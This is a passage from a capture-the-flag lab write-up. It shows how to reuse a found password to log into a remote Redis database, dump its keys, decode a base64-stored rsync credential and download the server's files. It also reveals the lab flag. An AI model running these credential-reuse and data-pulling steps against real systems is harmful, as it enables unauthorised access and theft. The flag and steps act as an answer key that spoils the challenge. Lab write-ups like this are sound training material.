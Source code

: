  Maybe we can reuse this password ?

Doesn't work for `ssh` as `nobody`. Neither for `rsync`

Didn't find anything else in the config. There is a `hplip.conf` file which might suggest that a printer server is running on the server ??



I was kinda stuck there, so I did take a look at a write up for a hint. Turns out we can connect to the `redis` instance remotely. Would have thought that it would have shown in `nmap`.. that's why I didn't even try.. Anyways now we can retrieve some stuff from the database.

We connect using `redis-cli -h 10.10.128.223 -a B65Hx562F@ggAZ@F`

We can then list all the keys with `keys *`

```
1) "authlist"
2) "marketlist"
3) "int"
4) "tmp"
5) "internal flag"
```

Now to retrieve the data, we must first know the type of the data we want to retrieve ([See this stack overflow post](https://stackoverflow.com/questions/8078018/get-redis-keys-and-values-at-command-prompt)).

We find the type for authlist using `type authlist` we get a `list`.

We can dump the content using `lrange authlist 0 -1` :

```
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
4) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```

We get a `base64` blob that decodes to 

```
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

Great ! now we can rsync in. Let's see what else we can find in the db.

Indeed we find a flag with `get 'internal flag'` :

```
THM{ff8e518addbbddb74531a724236a8221}
```



We download all the file using `rsync` on out machine with `rsync -av rsync://rsync-connect@10.10.128.223/files rsyn_shared`.
